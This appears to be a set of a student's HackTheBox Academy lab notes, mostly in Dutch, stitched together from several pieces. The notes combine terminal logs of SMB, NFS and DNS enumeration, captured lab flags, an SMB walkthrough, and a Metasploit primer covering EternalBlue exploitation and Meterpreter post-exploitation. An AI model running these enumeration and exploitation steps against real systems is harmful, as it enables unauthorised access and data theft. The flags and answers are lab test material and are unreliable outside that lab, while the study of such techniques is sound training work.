└─$ smbclient //10.129.51.27/sambashare -N -c "get flag.txt"
cat flag.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \flag.txt
HTB{b7skjr4c76zhsds7fzhd4k3ujg7nhdjre}
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ smbclient //10.129.51.27/sambashare -N                  
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Nov  8 08:43:14 2021
  ..                                  D        0  Mon Nov  8 10:53:19 2021
  .profile                            H      807  Tue Feb 25 07:03:22 2020
  contents                            D        0  Mon Nov  8 08:43:45 2021
  .bash_logout                        H      220  Tue Feb 25 07:03:22 2020
  .bashrc                             H     3771  Tue Feb 25 07:03:22 2020

                4062912 blocks of size 1024. 506392 blocks available
smb: \> cd contents
smb: \contents\> ls
  .                                   D        0  Mon Nov  8 08:43:45 2021
  ..                                  D        0  Mon Nov  8 08:43:14 2021
  flag.txt                            N       38  Mon Nov  8 08:43:45 2021

                4062912 blocks of size 1024. 506384 blocks available
smb: \contents\> cat flag.txt
cat: command not found
smb: \contents\> get flag.txt
getting file \contents\flag.txt of size 38 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \contents\> exit
                                                                                                           
┌──(kali㉿kali)-[~]
└─$ ls

                                                                                       
┌──(kali㉿kali)-[~]
└─$ cat flag.txt
HTB{o873nz4xdo873n4zo873zn4fksuhldsf}
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ 
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p 445 --script smb-os-discovery -Pn 10.129.51.27
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-20 16:34 -0500
Nmap scan report for 10.129.51.27
Host is up (0.11s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ rpcclient -U "" -N 10.129.51.27
rpcclient $> ┌──(kali㉿kali)-[~]
└─$ rpcclient -U "" -N 10.129.51.27
rpcclient $> ^C
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ rpcclient -U "" -N 10.129.51.27
rpcclient $> srvinfo
        DEVSMB         Wk Sv PrQ Unx NT SNT InlaneFreight SMB server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03
rpcclient $> querydominfo
Domain:         DEVOPS
Server:         DEVSMB
Comment:        InlaneFreight SMB server (Samba, Ubuntu)
Total Users:    0
Total Groups:   0
Total Aliases:  0
Sequence No:    1768945048
Force Logoff:   4294967295
Domain Server State:    0x1
Server Role:    ROLE_DOMAIN_PDC
Unknown 3:      0x1
rpcclient $> netsharegetinfo sambashare
netname: sambashare
        remark: InFreight SMB v3.1
        path:   C:\home\sambauser\
        password:
        type:   0x0
        perms:  0
        max_uses:       -1
        num_uses:       1
revision: 1
type: 0x8004: SEC_DESC_DACL_PRESENT SEC_DESC_SELF_RELATIVE 
DACL
        ACL     Num ACEs:       1       revision:       2
        ---
        ACE
                type: ACCESS ALLOWED (0) flags: 0x00 
                Specific bits: 0x1ff
                Permissions: 0x1f01ff: SYNCHRONIZE_ACCESS WRITE_OWNER_ACCESS WRITE_DAC_ACCESS READ_CONTROL_ACCESS DELETE_ACCESS 
                SID: S-1-1-0

rpcclient $> netsharegetinfo sambashare
netname: sambashare
        remark: InFreight SMB v3.1
        path:   C:\home\sambauser\
        password:
        type:   0x0
        perms:  0
        max_uses:       -1
        num_uses:       1
revision: 1
type: 0x8004: SEC_DESC_DACL_PRESENT SEC_DESC_SELF_RELATIVE 
DACL
        ACL     Num ACEs:       1       revision:       2
        ---
        ACE
                type: ACCESS ALLOWED (0) flags: 0x00 
                Specific bits: 0x1ff
                Permissions: 0x1f01ff: SYNCHRONIZE_ACCESS WRITE_OWNER_ACCESS WRITE_DAC_ACCESS READ_CONTROL_ACCESS DELETE_ACCESS 
                SID: S-1-1-0

rpcclient $> 
                                                   
┌──(kali㉿kali)-[~]
└─$ cat flag.txt
HTB{o873nz4xdo873n4zo873zn4fksuhldsf}
                                        
# SMB Enumeratie voor 10.129.51.235

## HackTheBox Academy Challenge - Nederlandse Handleiding

**Doel**: 10.129.51.235  
**SMB Poorten Open**: 139, 445  
**Service**: Samba smbd 4

---

## Vraag 1: Welke versie van de SMB server draait op het doelsysteem?

Van je Nmap scan weet je al: **Samba smbd 4**

Maar je hebt de **volledige banner met complete versie** nodig:

bash

```bash
# Krijg gedetailleerde SMB versie
smbclient -N -L //10.129.51.235

# Alternatief - Meer gedetailleerde versie info
crackmapexec smb 10.129.51.235

# Of gebruik enum4linux-ng voor complete details
enum4linux-ng 10.129.51.235 -A | grep -i "samba\|version"
```

**Verwacht formaat**: Zoiets als `Samba smbd 4.X.X-Ubuntu` of `Samba smbd 4.6.2`

**Antwoord**: De volledige banner string zoals die verschijnt

---

## Vraag 2: Wat is de naam van de toegankelijke share?

Voer deze commando's uit om shares te vinden:

bash

```bash
# Methode 1: smbclient (simpelste)
smbclient -N -L //10.129.51.235

# Methode 2: smbmap
smbmap -H 10.129.51.235

# Methode 3: CrackMapExec (toont duidelijk de permissies)
crackmapexec smb 10.129.51.235 --shares -u '' -p ''

# Methode 4: rpcclient gebruiken
rpcclient -U "" -N 10.129.51.235 -c "netshareenumall"
```

**Let op**: Negeer de standaard shares (print,IPC, IPC ,IPC)  
**Check permissies**: Zoek naar READ of WRITE toegang

**Antwoord**: De exacte sharenaam (let op hoofdletters/kleine letters)

---

## Vraag 3: Verbind met de share en vind flag.txt. Wat staat erin?

Als je de toegankelijke share hebt gevonden (bijvoorbeeld "notes"):

bash

```bash
# Verbind met de share (vervang SHARENAAM met de gevonden naam)
smbclient //10.129.51.235/SHARENAAM -N

# Binnen smbclient:
smb: \> ls                    # Toon bestanden
smb: \> get flag.txt          # Download flag.txt
smb: \> exit

# Lees de flag
cat flag.txt

# OF - Alles in één commando:
smbclient //10.129.51.235/SHARENAAM -N -c "get flag.txt"
cat flag.txt
```

**Antwoord**: De inhoud van flag.txt (meestal een hash of string)

---

## Vraag 4: Tot welk domein behoort de server?

bash

```bash
# Methode 1: rpcclient (beste methode)
rpcclient -U "" -N 10.129.51.235 -c "querydominfo"

# Methode 2: Van smbclient output (kijk onderaan)
smbclient -N -L //10.129.51.235
# Zoek naar: "Workgroup: XXXXX"

# Methode 3: enum4linux-ng
enum4linux-ng 10.129.51.235 -A | grep -i "domain\|workgroup"

# Methode 4: CrackMapExec
crackmapexec smb 10.129.51.235
# Zoek naar: (domain:XXXXX)
```

**Antwoord**: De domein/workgroup naam (bijv. "WORKGROUP" of "DEVOPS")

---

## Vraag 5: Vind aanvullende informatie over de specifieke share. Wat is de aangepaste versie?

bash

```bash
# Methode 1: rpcclient (BESTE voor deze vraag)
rpcclient -U "" -N 10.129.51.235
rpcclient $> netshareenumall
# Kijk naar het "remark:" veld voor jouw share

# OF krijg specifieke share info:
rpcclient $> netsharegetinfo SHARENAAM

# Methode 2: smbclient lijst (toont opmerkingen/comments)
smbclient -N -L //10.129.51.235
# Kijk in de "Comment" kolom

# Methode 3: enum4linux-ng
enum4linux-ng 10.129.51.235 -A | grep -B 2 -A 5 "SHARENAAM"
```

De "aangepaste versie" verwijst naar het **comment/remark** veld van de share.

**Antwoord**: De opmerking/comment string voor die specifieke share

---

## Vraag 6: Wat is het volledige systeempad van die specifieke share?

bash

```bash
# Gebruik rpcclient voor gedetailleerde share info
rpcclient -U "" -N 10.129.51.235
rpcclient $> netsharegetinfo SHARENAAM

# Zoek naar het "path:" veld
# Voorbeeld output:
#   netname: notes
#   remark: CheckIT
#   path:   C:\mnt\notes\      <-- Dit heb je nodig
```

**BELANGRIJK**: Converteer Windows pad formaat naar Linux formaat:

- Windows: `C:\mnt\notes\`
- Linux: `/mnt/notes/`

**Antwoordformaat**: `/directory/names` (verwijder C:\ en verander backslashes naar forward slashes)

**Antwoord**: Het volledige pad in Linux formaat

---

## Snelle Commando Reeks (Voer deze in volgorde uit)

bash

```bash
# 1. Krijg volledige SMB versie banner
smbclient -N -L //10.129.51.235

# 2. Je ziet nu de shares - noteer de toegankelijke
# (De output toont sharenamen en comments)

# 3. Haal de flag op
smbclient //10.129.51.235/[SHARENAAM] -N -c "get flag.txt"
cat flag.txt

# 4, 5 & 6. Krijg domein, comment, en pad
rpcclient -U "" -N 10.129.51.235
rpcclient $> querydominfo                    # Krijgt domein
rpcclient $> netshareenumall                 # Krijgt alle shares met comments
rpcclient $> netsharegetinfo [SHARENAAM]     # Krijgt pad
rpcclient $> exit
```

---

## BONUS: Je hebt ook FTP en NFS open!

Van je Nmap scan zag ik:

**FTP (Poort 21)**:

- Anonymous login is toegestaan!
- Er is al een flag.txt zichtbaar

bash

```bash
# Snelle FTP toegang
ftp 10.129.51.235
# Gebruikersnaam: anonymous
# Wachtwoord: (druk gewoon op Enter)
ftp> ls
ftp> get flag.txt
ftp> exit
cat flag.txt
```

**NFS (Poort 2049)**:

- Network File System draait

bash

```bash
# Toon NFS shares
showmount -e 10.129.51.235

# Mount als er shares gevonden zijn
mkdir /tmp/nfs_mount
sudo mount -t nfs 10.129.51.235:/share_path /tmp/nfs_mount
ls -la /tmp/nfs_mount
```

---

## Probleemoplossing

**Als commando's falen, installeer tools**:

bash

```bash
sudo apt update
sudo apt install smbclient cifs-utils samba-common-bin enum4linux-ng crackmapexec nfs-common
```

**Als je "NT_STATUS_ACCESS_DENIED" krijgt**:

- De share is misschien niet toegankelijk met null session
- Probeer andere shares uit de lijst

**Verwachte Sharenamen** (gebaseerd op de documentatie):

- Veel voorkomende namen: home, dev, notes, users, shared, public

---

## Samenvatting - Wat je moet doen:

1. **Start met**: `smbclient -N -L //10.129.51.235`
2. **Noteer**: SMB versie, sharenaam, comment, workgroup
3. **Download flag**: Verbind met de share en haal flag.txt op
4. **Krijg pad**: Gebruik rpcclient om het volledige systeempad te krijgen
# Share enumeration
smbclient -N -L //<target>
smbmap -H <target>
crackmapexec smb <target> --shares -u '' -p ''

# User enumeration
rpcclient -U "" <target>
samrdump.py <target>
enum4linux-ng.py <target> -A

# Comprehensive scan
nmap <target> -sV -sC -p139,445

# Connect to share
smbclient //<target>/<share>
# Public Exploits & Metasploit Primer

> **Category**: Methodology / Exploitation  
> **Phase**: Exploitation  
> **Prerequisites**: [[Nmap]], [[Web Enumeration]], Service identification

```bash
./


```

## 📋 Inhoudsopgave

- [[#Vinden van Public Exploits]]
- [[#Metasploit Framework]]
- [[#Post-Exploitation met Meterpreter]]
- [[#Exploit Modification Guide]]
- [[#Best Practices]]
- [[#Oefenmachines]]

---

## 🔍 Vinden van Public Exploits

Zodra je een service en versie hebt gevonden (via [[Nmap]] of banner grabbing), zoek je naar bekende kwetsbaarheden.

### Online Databases

**Google Dorking:**

```
[Software Naam] [Versie] exploit
[Service] [Version] CVE
site:exploit-db.com [service]
```

**Voorbeelden:**

```
OpenSSH 7.2 exploit
Apache 2.4.49 CVE
Windows 7 SMB exploit
site:exploit-db.com vsftpd 2.3.4
```

**Exploit Databases:**

|Database|URL|Gebruik|
|---|---|---|
|**Exploit-DB**|exploit-db.com|Grootste collectie public exploits|
|**Rapid7 DB**|rapid7.com/db|Metasploit module database|
|**Vulnerability Lab**|vulnerability-lab.com|Proof of concepts|
|**GitHub**|github.com/search|Modern exploits, vaak met PoC|
|**PacketStorm**|packetstormsecurity.com|Security tools en exploits|

---

## 💻 Offline: Searchsploit

[[Searchsploit]] is de lokale database van Exploit-DB, geïnstalleerd op Kali/Parrot.

### Installatie

```bash
# Installeren (meestal pre-installed)
sudo apt install exploitdb -y

# Database updaten
searchsploit -u
```

### Basic Usage

```bash
# Zoeken naar exploits
searchsploit [service] [versie]

# Voorbeeld uit HTB Academy
searchsploit openssh 7.2
```

**Output:**

```
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                                        | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

### Working with Exploits

```bash
# Exploit kopiëren naar werkmap
searchsploit -m [EDB-ID]
searchsploit -m 49584

# Exploit inzien (cat/less)
searchsploit -x [EDB-ID]
searchsploit -x 49584

# Open in editor
searchsploit -e 49584

# Web browser met info
searchsploit -w apache
```

---

## 🛡️ Metasploit Framework (MSF)

Een krachtig framework om aanvallen te automatiseren. Bevat exploits, payloads, encoders en post-exploitation tools.

### MSF Features

- **Reconnaissance scripts**: Enumerate remote hosts en compromised targets
- **Verification scripts**: Test kwetsbaarheden zonder te compromitteren
- **Meterpreter**: Geavanceerde shell voor post-exploitation
- **Pivoting tools**: Lateral movement binnen netwerken

### Basis Workflow


### 1. Starten

```bash
# Start Metasploit
msfconsole

# Stille modus (geen banner)
msfconsole -q
```

**Banner output:**

```
      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  
       =[ metasploit v6.0.16-dev                          ]
+ -- --=[ 2074 exploits - 1124 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
```

### 2. Zoeken naar Exploits

```bash
# Basic search
search [term]

# Voorbeeld uit HTB Academy
search exploit eternalblue
```

**Output:**

```
Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   ...
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010
```

**Advanced search filters:**

```bash
search type:exploit platform:windows smb
search cve:2017-0144
search name:apache rank:excellent
```

> [!tip] Help Search Use `help search` to see all available filters

### 3. Exploit Selecteren

```bash
# Gebruik nummer uit search results
use 0

# Of volledig pad (HTB Academy voorbeeld)
use exploit/windows/smb/ms17_010_psexec

# Info over module
info

# Bekijk opties
show options
```

### 4. Opties Instellen

```bash
# Bekijk alle opties
show options

# Voorbeeld output (MS17-010):
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   RHOSTS                                                                                yes       The target host(s)
   RPORT                 445                                                             yes       The Target port (TCP)
   LHOST                                                                                 yes       Your IP address
   ...
```

**Kritieke Opties:**

```bash
# RHOSTS: Target IP(s)
set RHOSTS 10.10.10.40

# LHOST: Jouw VPN IP (CRUCIAAL!)
set LHOST tun0  # ← Gebruik altijd interface naam!

# RPORT: Remote Port (meestal automatisch)
set RPORT 445
```

> [!warning] LHOST = tun0 Gebruik **ALTIJD** `set LHOST tun0` in plaats van je IP-adres. Je VPN IP kan veranderen, maar de interface naam (`tun0`) blijft hetzelfde!

### 5. Target Verificatie

```bash
# Check of target kwetsbaar is
check
```

**Voorbeeld output:**

```
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010!
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

> [!note] Check Support Niet alle exploits ondersteunen de `check` functie!

### 6. Exploit Uitvoeren

```bash
# Exploit runnen
exploit

# Of
run

# Run in background (job)
exploit -j
```

**Voorbeeld output bij succes:**

```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159)
```

---

## 🐚 Post-Exploitation: Meterpreter

Als de exploit slaagt, krijg je vaak een **Meterpreter shell**. Dit is een geavanceerde shell met extra functies.

### System Information

```bash
# Huidige gebruiker (EERSTE STAP!)
getuid

# Voorbeeld output:
Server username: NT AUTHORITY\SYSTEM
```

```bash
# Systeem informatie
sysinfo

# Netwerk configuratie
ipconfig       # Windows
ifconfig       # Linux

# Processen
ps
```

### Shell Access

```bash
# Drop naar systeem shell
shell

# Voorbeeld:
meterpreter > shell
Process 39640 created.
Channel 0 created.

C:\WINDOWS\system32> whoami
NT AUTHORITY\SYSTEM
```

**Terug naar Meterpreter:**

```bash
# In shell, typ:
exit

# Of gebruik:
CTRL + Z
```

### File Operations

```bash
# Download bestand van target
download C:\\Users\\Admin\\Desktop\\flag.txt

# Upload bestand naar target
upload /root/exploit.sh C:\\Temp\\exploit.sh

# Zoeken naar bestanden
search -f flag.txt
```

### Session Management

```bash
# Background current session
background
# Of: CTRL + Z

# List sessions
sessions -l

# Interact met sessie
sessions -i 1
```

---

## 📝 Exploit Modification Guide

### Wanneer Metasploit Faalt

> [!warning] Niet Blind Vertrouwen Metasploit is een hulpmiddel, maar begrijp ook de handmatige methode. Als MSF faalt, moet je weten hoe je een Python of C script van [[Searchsploit]] aanpast!

### Python Exploits

**Stappen:**

1. **Kopieer exploit**

```bash
searchsploit -m 12345
```

2. **Bekijk de code**

```bash
cat 12345.py
```

3. **Check voor variabelen**

```python
# Common variabelen die aangepast moeten worden:
target = "127.0.0.1"  # ← Verander naar target IP
port = 80             # ← Verander indien nodig
lhost = "10.10.14.5"  # ← Jouw IP (van tun0)
lport = 4444          # ← Jouw listening port
```

4. **Installeer dependencies**

```bash
pip install requests paramiko
```

5. **Run het script**

```bash
python3 12345.py
```

### C/C++ Exploits

```bash
# Basic compile
gcc exploit.c -o exploit

# Met warnings
gcc -Wall exploit.c -o exploit

# Run
./exploit [TARGET_IP]
```

---

## 🧠 Best Practices

### Pre-Exploitation Checklist

- [ ] Service en versie geïdentificeerd via [[Nmap]]
- [ ] Exploit gezocht in [[Searchsploit]] en online databases
- [ ] **Exploit code gelezen en begrepen**
- [ ] Juiste target versie bevestigd
- [ ] `LHOST` ingesteld op `tun0`
- [ ] Listener klaarstaan (indien handmatige exploit)

### During Exploitation

> [!tip] Altijd Lezen! Voer NOOIT een exploit uit zonder de code te begrijpen. Check:
> 
> - Wat doet het script?
> - Zijn er variabelen die aangepast moeten worden?
> - Is het voor de juiste versie/OS?

> [!warning] LHOST Interface Gebruik altijd de naam van de interface (`tun0`) in plaats van je IP, omdat je IP kan veranderen!

### Post-Exploitation

- [ ] Direct `getuid` checken
- [ ] `sysinfo` voor OS info
- [ ] Screenshot als bewijs
- [ ] Zoek naar flags (`/flag.txt`, `/root/flag.txt`, etc.)
- [ ] **Documenteer alles!**

---

## 🎯 Troubleshooting

|Probleem|Oorzaak|Oplossing|
|---|---|---|
|"Exploit completed, but no session was created"|Firewall, verkeerde LHOST, incompatibele payload|Check LHOST is `tun0`, probeer andere payload|
|"Handler failed to bind"|LPORT al in gebruik|Kies andere poort: `set LPORT 4445`|
|"Connection refused"|Target niet kwetsbaar, firewall|Run `check`, verify versie|
|"Target not vulnerable"|Verkeerde versie, gepatchd|Verify exact versie, zoek alternatieve exploits|

---

## 🏋️ Oefenmachines (Retired HTB)

> [!note] HTB Academy Aanbeveling "There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit."

|Machine|OS|Difficulty|Exploit Type|Notes|
|---|---|---|---|---|
|**Blue**|Windows|Easy|MS17-010 EternalBlue|Classic SMB exploit - BESTE EERSTE BOX|
|**Lame**|Linux|Easy|Samba 3.0.20|Username map script|
|**Legacy**|Windows|Easy|MS08-067, MS17-010|Multiple vulnerabilities|
|**Devel**|Windows|Easy|FTP + IIS|Anonymous FTP upload + ASP shell|
|**Jerry**|Windows|Easy|Tomcat Manager|Default credentials|
|**Granny/Grandpa**|Windows|Easy|WebDAV|PUT method enabled|
|**Optimum**|Windows|Easy|HttpFileServer|RCE vulnerability|

**Recommended Order:**

1. **Blue** - Classic EternalBlue (MS17-010) zoals in het Academy voorbeeld
2. **Lame** - Simple Samba exploit
3. **Legacy** - Multiple SMB vulnerabilities
4. **Devel** - Combines FTP and web exploitation

---

## 📚 Complete Workflow Example

### HTB Academy Scenario: MS17-010 EternalBlue

```bash
# 1. Start Metasploit
msfconsole -q

# 2. Search voor exploit
msf6 > search exploit eternalblue

# 3. Selecteer exploit
msf6 > use exploit/windows/smb/ms17_010_psexec

# 4. Bekijk opties
msf6 exploit(windows/smb/ms17_010_psexec) > show options

# 5. Stel target in
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0

# 6. Check kwetsbaarheid
msf6 exploit(windows/smb/ms17_010_psexec) > check

# 7. Run exploit
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

# 8. Post-exploitation
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > shell
C:\WINDOWS\system32> whoami
NT AUTHORITY\SYSTEM

C:\WINDOWS\system32> type C:\flag.txt
HTB{your_flag_here}
```

---

## 🔗 Links & Resources

**Academy Modules:**

- [[Nmap|Nmap Scanning]]
- [[Web Enumeration]]
- [[Searchsploit|Searchsploit Reference]]
- [[Metasploit|Metasploit Deep Dive]]

**External Resources:**

- Exploit-DB: exploit-db.com
- Rapid7 DB: rapid7.com/db
- Metasploit Unleashed: offensive-security.com/metasploit-unleashed/

---

## 💡 Key Takeaways

> [!important] HTB Academy Quote "Metasploit is another essential tool to add to our toolkit, but it is crucial **not solely to rely on it**. To be well-rounded testers, we must know how to best leverage all of the tools available to us, understand why they sometimes fail, and know when to pivot to manual techniques or other tools."

**Onthouden:**

1. ✅ Zoek ALTIJD eerst met [[Searchsploit]] en online databases
2. ✅ LEES de exploit code voordat je hem gebruikt
3. ✅ Gebruik `LHOST tun0` voor HTB labs
4. ✅ Run `check` als beschikbaar
5. ✅ Ken ook de handmatige methode (niet alleen Metasploit)

---

_Last updated: 2026-01-13_  
_Based on: HTB Academy - Getting Started Module_

┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -Pn -A -p 21,22,111,139,445,2049 10.129.3.151 
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-22 15:22 -0500
Nmap scan report for 10.129.3.151
Host is up (0.099s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 InFreight FTP v1.1
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 ftpuser  ftpuser        39 Nov  8  2021 flag.txt
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
2049/tcp open  nfs         3-4 (RPC #100003)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.98%I=7%D=1/22%Time=6972870B%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,74,"220\x20InFreight\x20FTP\x20v1\.1\r\n500\x20Invalid\x20comm
SF:and:\x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\
SF:x20try\x20being\x20more\x20creative\r\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: DEVSMB, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: 4s
| smb2-time: 
|   date: 2026-01-22T20:23:03
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   105.46 ms 10.10.14.1
2   104.53 ms 10.129.3.151

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.69 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.129.3.151
Export list for 10.129.3.151:
/var/nfs      10.0.0.0/8
/mnt/nfsshare 10.0.0.0/8

┌──(kali㉿kali)-[~]
└─$ mkdir -p ~/nfs_mount
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mkdir -p ~/nfsshare_mount
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs 10.129.3.151:/var/nfs ~/nfs_mount -o nolock
[sudo] password for kali: 
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ls -la ~/nfs_mount
total 12
drwxr-xr-x  2 nobody nogroup 4096 Nov  8  2021 .
drwx------ 55 kali   kali    4096 Jan 22 15:31 ..
-rw-r--r--  1 nobody nogroup   39 Nov  8  2021 flag.txt
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ cat ~/nfs_mount/flag.txt
HTB{hjglmvtkjhlkfuhgi734zthrie7rjmdze}
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs 10.129.3.151:/mnt/nfsshare ~/nfsshare_mount -o nolock
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ls -la ~/nfsshare_mount
total 12
drwxr-xr-x  2 nobody nogroup 4096 Nov  8  2021 .
drwx------ 55 kali   kali    4096 Jan 22 15:31 ..
-rw-r--r--  1 nobody nogroup   59 Nov  8  2021 flag.txt
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ cat ~/nfsshare_mount/flag.txt
HTB{8o7435zhtuih7fztdrzuhdhkfjcn7ghi4357ndcthzuc7rtfghu34}

┌──(kali㉿kali)-[~]
└─$ nmap 10.129.3.168               
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-22 15:58 -0500
Stats: 0:01:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 25.93% done; ETC: 16:02 (0:02:49 remaining)
Stats: 0:05:53 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 49.96% done; ETC: 16:09 (0:05:54 remaining)
Nmap scan report for 10.129.3.168
Host is up (0.11s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
53/tcp   open  domain
110/tcp  open  pop3
143/tcp  open  imap
993/tcp  open  imaps
995/tcp  open  pop3s
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 944.98 seconds

# DNS Enumeration - HTB Academy Footprinting Module

**Target:** 10.129.3.168 (ACADEMY-FOOT-NIX02)  
**Domain:** inlanefreight.htb  
**Datum:** 22 januari 2026

---

## 📋 Overzicht

Deze sessie betrof DNS enumeration waarbij we verschillende zones moesten identificeren, zone transfers uitvoeren, en subdomains brute-forcen om specifieke hosts te vinden.

---

## 🎯 Doelstellingen & Antwoorden

### Question 1: FQDN van DNS server
**Vraag:** Interact with the target DNS using its IP address and enumerate the FQDN of it for the "inlanefreight.htb" domain.

**Commando:**
```bash
dig ns inlanefreight.htb @10.129.3.168
```

**Output:**
```
;; ANSWER SECTION:
inlanefreight.htb.      604800  IN      NS      ns.inlanefreight.htb.

;; ADDITIONAL SECTION:
ns.inlanefreight.htb.   604800  IN      A       127.0.0.1
```

**✅ Antwoord:** `ns.inlanefreight.htb`

---

### Question 2: TXT Record via Zone Transfer
**Vraag:** Identify if its possible to perform a zone transfer and submit the TXT record as the answer. (Format: HTB{...})

**Commando:**
```bash
dig axfr inlanefreight.htb @10.129.3.168
```

**Output (excerpt):**
```
inlanefreight.htb.      604800  IN      TXT     "MS=ms97310371"
inlanefreight.htb.      604800  IN      TXT     "atlassian-domain-verification=t1rKCy68JFszSdCKVpw64A1QksWdXuYFUeSXKU"
inlanefreight.htb.      604800  IN      TXT     "v=spf1 include:mailgun.org..."
inlanefreight.htb.      604800  IN      NS      ns.inlanefreight.htb.
app.inlanefreight.htb.  604800  IN      A       10.129.18.15
dev.inlanefreight.htb.  604800  IN      A       10.12.0.1
